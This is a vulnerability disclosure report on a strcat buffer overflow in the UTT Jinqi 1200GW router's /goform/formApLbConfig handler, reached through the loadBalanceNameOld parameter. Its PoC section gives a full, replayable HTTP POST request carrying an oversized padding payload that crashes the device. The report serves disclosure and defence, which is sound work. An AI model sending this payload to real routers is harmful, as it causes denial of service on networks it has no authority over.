




## Submitter：林淦(Lingan) 罗熙(Luoxi)

## Submitter unit：广州大学 (Guangzhou University)

## Information

**Vendor of the products:**   UTT

**Vendor's website:** [UTT艾泰-专业路由器、交换机、防火墙品牌](https://utt.com.cn/)

**Affected products:** 进取 1200GW

**Affected firmware version:**  <=v3.0.0-170831

**Firmware download address:** [UTT艾泰-专业路由器、交换机、防火墙品牌]([UTT艾泰-专业路由器、交换机、防火墙品牌](https://utt.com.cn/downloadfile.php?id=2282))

## Overview

The UTT Jinqi 1200GW router has a serious overflow vulnerability. An attacker can control the parameter  except through the route/goform/formApLbConfig, which will cause a buffer overflow. Specifically, it can be achieved through "strcat((char *)dest, src);" to cause a denial of service attack.

## Vulnerability details

The API for invoking the function



There is a judgment here. When the Action is add, it will enter the sub_4B48F8 function to perform the next operation.



Here loadBalanceNameOld will make a judgment. If its value is not empty, it can be copied through strcat((char *)dest, src_1);, but the dest array is not bounded, which leads to overflow.



## poc

```
POST /goform/formApLbConfig HTTP/1.1
Host: 192.168.1.1
Content-Length: 1822
Cache-Control: max-age=0
Authorization: Digest username="admin", realm="UTT", nonce="80758026511f147977ce8ea9363e038c", uri="/goform/formArpBindGlobalConfig", algorithm=MD5, response="3c90b3b4d198905f88cf1301ff8ad6b5", opaque="5ccc069c403ebaf9f0171e9517f40e41", qop=auth, nc=000001a1, cnonce="71e33390dc75c484"
Origin: http://192.168.1.1
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/137.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.1.1/IPMac.asp
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: language=zhcn; utt_bw_rdevType=; td_cookie=2522114788
Connection: close

Action=add&loadBalanceNameOld=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaabbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbcccccccccccccccccccccccccccccccccc
```

